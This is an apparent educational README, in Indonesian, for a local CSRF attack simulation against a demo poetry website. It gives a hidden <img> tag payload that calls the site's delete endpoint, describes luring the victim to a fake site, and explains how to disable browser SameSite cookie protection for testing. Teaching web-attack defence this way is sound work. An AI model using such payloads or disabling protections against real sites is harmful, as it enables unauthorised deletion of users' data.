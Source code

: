 ## Simulation 2 - Puisi Kita

Untuk melakukan serangan CSRF pada akun Mas Boy dan menghapus puisinya, dilakukan dengan membuat sebuah fake website yang didalamnya secara tidak terlihat terdapat sebuah &lt;img&gt; tag yang melakukan request ke end point penghapusan puisi. End point tersebut adalah:

```
GET /puisiku/?id=HASH&delete
```

Yang perlu dilakukan adalah melakukan social engineering agar Mas Boy mengunjungi fake website yang telah dibuat. Fake website tersebut mengandung tag &lt;img&gt; sebagai berikut:

```
<img src="http://localhost:8082/puisiku/?id=HASH&delete" style="visibility:hidden;">
```

Dimana `HASH` adalah ID dari puisi Mas Boy yaitu &quot;Nusantara Tercinta&quot;. Hal ini dapat diketahui dengan melakukan klik pada judul puisi &quot;Nusantara Tercinta&quot; atau langsung _view HTML source_ halaman depan.

## Menjalankan Simulasi

Download atau clone repository dari GitHub.

```
$ git clone git@github.com:rioastamal-examples/phpid-xss-csrf-simulation.git
```

Jalankan website target yaitu &quot;Puisi Kita&quot; pada port 8082.

```
$ cd phpid-xss-csrf-simulation
$ php -S 0.0.0.0:8082 \
-t phpid-xss-csrf-simulation/simulation-02/puisikita-website/public \
phpid-xss-csrf-simulation/simulation-02/puisikita-website/public/index.php
```

Pada terminal window lain jalankan Fake website untuk melakukan CSRF.

```
$ php -S 0.0.0.0:8083 \
-t phpid-xss-csrf-simulation/simulation-02/hacker-website/public \
phpid-xss-csrf-simulation/simulation-02/hacker-website/public/index.php
```

Untuk detil cara menjalankan serangan dapat dibaca pada slide presentasi.

Chrome versi &gt;= 80 dan Firefox versi &gt;= 75 memiliki policy SameSite Cookie yang tidak memungkinkan terjadinya serangnan CSRF yang digunakan pada simulasi ini. Untuk itu gunakan versi dibawahnya atau disable SameSite Cookie policy untuk mengetes. Pada chrome dapat menggunakan [chrome://flags/#same-site-by-default-cookies](chrome://flags/#same-site-by-default-cookies).